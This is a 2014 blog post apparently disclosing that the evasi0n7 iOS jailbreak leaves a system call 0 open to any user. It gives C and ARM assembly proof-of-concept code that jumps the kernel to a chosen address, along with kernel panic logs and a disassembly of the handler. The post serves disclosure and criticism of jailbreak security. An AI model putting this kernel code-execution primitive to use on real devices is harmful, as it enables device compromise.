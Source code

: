 ```yaml
---
layout: post
title:  "Evading iOS Security"
date:   2014-01-12 01:30:00
categories: projects research
---
```


Here's some code:

{% highlight c %}
__attribute__((constructor)) void crash(void)
{
	/* Here's the C version. */
	syscall(0, 0x41414141, -1);

	/* And in ASM. */
	__asm__ __volatile__("mov r0, #0\n"
			"movw r1, #0x4141\n"
			"movt r1, #0x4141\n"
			"mov r2, #-1\n"
			"mov r12, #0\n"
			"swi #0x80\n");
}
{% endhighlight %}

Here's what happens when you run it on a device using evasi0n7:
{% highlight bash %}
panic(cpu 0 caller 0x9dc204d7): sleh_abort: prefetch abort in kernel mode: fault_addr=0x41414140
r0:   0xffffffff  r1: 0x27dffdec  r2: 0x2bf0e9c4  r3: 0x2bf0e95c
r4:   0x41414141  r5: 0xa48782d4  r6: 0x81b6f594  r7: 0x8f5d3fa8
r8:   0x9df1d614  r9: 0x81b6f330 r10: 0x9df1db00 r11: 0x00000006
r12:  0x00000000  sp: 0x8f5d3f60  lr: 0x93dd7048  pc: 0x41414140
cpsr: 0x20000033 fsr: 0x00000005 far: 0x41414140
{% endhighlight %}

And here's what happens on an ARM64 device that also uses evasi0n7:
{% highlight bash %}
panic(cpu 0 caller 0xffffff800422194c): PC alignment exception from kernel. (saved state: 0xffffff8003a34640)
	  x0: 0x0000000037e50a70  x1:  0x0000000000000000  x2:  0x0000000100002f84  x3:  0x0000000000104e44
	  x4: 0x0000000000104e44  x5:  0x0000000000000000  x6:  0x0000000000000000  x7:  0xffffff8087057310
	  x8: 0xffffffffdeadbeef  x9:  0x000000000000000e  x10: 0xffffff8086f9a280  x11: 0x0000000000000000
	  x12: 0x0000000003000004 x13: 0x0000000000104dc0  x14: 0x0000000000002ff5  x15: 0x0000000037e50a84
	  x16: 0x0000000000000000 x17: 0x0000000000000000  x18: 0x0000000000000000  x19: 0xffffff8086f9a590
	  x20: 0xffffff8086ce4bd0 x21: 0xffffff8087057310  x22: 0xffffff80045ea3c8  x23: 0x0000000000000018
	  x24: 0xffffff8086f9a598 x25: 0x0000000000000000  x26: 0x0000000000000006  x27: 0x0000000000000000
	  x28: 0xffffff80045ea3c8 fp:  0xffffff8003a34a60  lr:  0xffffff8004362434  sp:  0xffffff8003a34990
	  pc:  0xffffffffdeadbeef cpsr: 0x60000304         esr: 0x8a000000          far: 0xffffffffdeadbeef
{% endhighlight %}

..And here's the system call handler for system call 0... (ARM32 of course!)
{% highlight bash %}
__text:00000000                 CODE32
__text:00000000                 STMFD           SP!, {R4-R7,LR}
__text:00000004                 MOV             R5, R2
__text:00000008                 MOV             R6, R1
__text:0000000C                 LDR             R0, =0x9E415A34
__text:00000010                 BLX             R0
__text:00000014                 LDR             R0, =0x9E41E160
__text:00000018                 BLX             R0
__text:0000001C                 LDR             R0, =0x9E415958
__text:00000020                 BLX             R0
__text:00000024                 LDR             R0, [R6]
__text:00000028                 CMP             R0, #0
__text:0000002C                 BEQ             locret_50
__text:00000030                 MOV             R4, R0
__text:00000034                 LDR             R0, [R6,#4]
__text:00000038                 LDR             R1, [R6,#8]
__text:0000003C                 LDR             R2, [R6,#0xC]
__text:00000040                 LDR             R3, [R6,#0x10]
__text:00000044                 BLX             R4
__text:00000048                 STR             R0, [R5]
__text:0000004C                 MOV             R0, #0
__text:00000050
__text:00000050 locret_50                               ; CODE XREF: __text:0000002Cj
__text:00000050                 LDMFD           SP!, {R4-R7,PC}
__text:00000050 ; ---------------------------------------------------------------------------
__text:00000054 off_54          DCD 0x9E415A34          ; DATA XREF: __text:0000000Cr
__text:00000058 off_58          DCD 0x9E41E160          ; DATA XREF: __text:00000014r
__text:0000005C off_5C          DCD 0x9E415958          ; DATA XREF: __text:0000001Cr
{% endhighlight %}

Jailbreaking ruins security and integrity. Enough said. Have a good day. 

(Oh, it also can be used by any user, including `mobile`. One can wonder if TaiG or such is using this as a
back door...)